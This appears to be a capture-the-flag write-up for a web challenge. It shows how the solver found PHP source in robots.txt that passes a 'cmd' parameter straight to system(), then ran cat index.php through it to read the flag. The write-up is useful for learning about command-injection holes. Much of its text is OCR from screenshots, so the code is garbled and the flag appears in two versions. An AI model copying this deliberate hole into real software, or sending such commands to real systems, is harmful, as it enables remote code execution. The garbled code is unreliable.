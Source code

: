 # Payload
> No description.

## About the Challenge
We were given a website that has a button to give us a detail about the system


[Image extracted text: 2 
C
ch42906117574
rung =
?btn=
Hurrey! I just created my first website
System details
System Details: Linux traboda 5.4.209-116.363.amzn2.X86_64 #1 SMP Wed
10 21.19.18 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
cheng:
Aug]


## How to Solve?
When I want to check the source code, trying every single thing on the `btn` parameter. The result is nothing. And then I decided to test some interesting endpoint like `.git` or `robots.txt`. And then there is a source code when I open `robots.txt`


[Image extracted text: ch42906117574.ch.eng run/robotstx
https://ch42906117574.ch eng run/robots txt
Getting Started
#519502 Name Link B_
#927384 Race Conditi__
#502758 RCE and Co_
<'php
iflisset($_GET[
cmd' ]) ){
system($_GET[
cmd ' ])_
else
iflisset($_GET[
btn' 1)){
echo
<bxSystem Details:
<1b>'
system(
uname
~a");]


As you can see, we can execute an OS command using the `cmd` parameter. And then read `index.php` file to obtain the flag or we can execute the `env` command to retrieve the flag from environtment variables


[Image extracted text: My Website
https//ch42906117574.ch,eng run/? X
C
view-source:https://ch42906117574.ch.eng run/?cmd=cat index-php
Getting Started
#519502 Name Link B.
#927384 Race Conditi_.
#502758 RCE and Co_
Exploit Database
<body>
10
<hl> Hurrey!
I just created my first website</hl>
11
<form action=
method="GET" >
12
button type="submit"
name="btn" System details<
button>
13
<brxebr>
14
form>
15
</body:
16
</html>
17
18 < !DOCTYPE_htmlz
19 <html_langz
en
20 <head>
21
<meta charset="UTF-8" >
22
<meta http-equiv-"X-UA-Compatible"
content="IE-edge
23
<meta
name="viewport
content-"width-device-Width, initial-scale-1.0">
24
<title My Website</title>
25 </head?
26
<body?
27
<hl> Hurrey!
I just created my first website</hl>
28
<form action=
method="GET" >
29
button type-"submit"
name-"btn" System details</button>
30
br <br>
31
form>
32
</body>
33
<Ihtml>
34
35
Pphp
putenv("FLAG-VishwaCTF{yeu_ f_0-U-n-d_M3}" J;
36
if(isset($_GETI
cmd ' 1)) {
system($_GET['cmd' ]);
else

if(iecho(_GEJystem Details:_K/bz"_
system(
'uname
-a");
46
2>]


```
VishwaCTF{y0u_f-o-u-n-d_M3}
```